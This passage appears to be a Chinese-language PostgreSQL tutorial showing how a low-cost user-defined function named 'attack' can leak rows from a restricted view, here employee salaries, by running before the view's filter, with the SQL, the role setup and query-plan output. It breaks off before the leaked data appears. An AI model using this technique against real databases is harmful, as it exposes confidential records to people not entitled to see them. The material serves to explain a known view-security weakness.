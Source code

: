 看起来很完美, r1,r2都不能访问t表, 只能分别访问v1和v2;  
```  
postgres=# \c postgres r1  
You are now connected to database "postgres" as user "r1".  
postgres=> select count(*) from v1;  
 count   
-------  
    92  
(1 row)  
  
postgres=> select * from t;  
ERROR:  permission denied for table t  
  
  
postgres=> \c postgres r2  
You are now connected to database "postgres" as user "r2".  
postgres=> select count(*) from v2;  
 count   
-------  
   103  
(1 row)  
  
postgres=> select * from t;  
ERROR:  permission denied for table t  
```  
  
看起来特别完美是不是? 部门领导只能看到自己管理的员工的薪资, 看不到其他人的薪资.  
  
  
见证奇迹的时刻到了:  
  
创建一个函数, 输入视图的每个字段, 返回true, 并抛出notice  
```  
create or replace function attack(uid int, bid int, sa numeric, info text, ts timestamp) returns boolean as $$  
declare  
begin  
  raise notice '%,%,%,%,%', uid,bid,sa,info,ts;  
  -- 以上语句也能替换为把数据插入到另一张表里面.    
  return true;  
end;  
$$ language plpgsql strict;  
```  
  
紧接着把这个函数的代价调整为很低很低  
```  
-- 自定义函数默认代价为100, 见 pg_proc.procost    
-- 内置函数默认代价为1, 例如 int4 = int4 对应 int4eq 函数   
alter function attack(int,int,numeric,text,timestamp) cost 0.00000001;    
```  
  
我们在查询视图时, 带上刚刚新建的函数的条件. 执行计划里面可以看到用了`where  attack(uid, bid, sa, info, ts) AND (bid = 1)`  
  
有趣的事情发生了, 到底时先执行`bid=1`还是先执行`attack(uid, bid, sa, info, ts)`?   
```  
postgres=# explain select * from v1 where attack(uid,bid,sa,info,ts);  
                        QUERY PLAN                          
----------------------------------------------------------  
 Seq Scan on t  (cost=0.00..239.00 rows=31 width=61)  
   Filter: (attack(uid, bid, sa, info, ts) AND (bid = 1))  
(2 rows)  
```  
  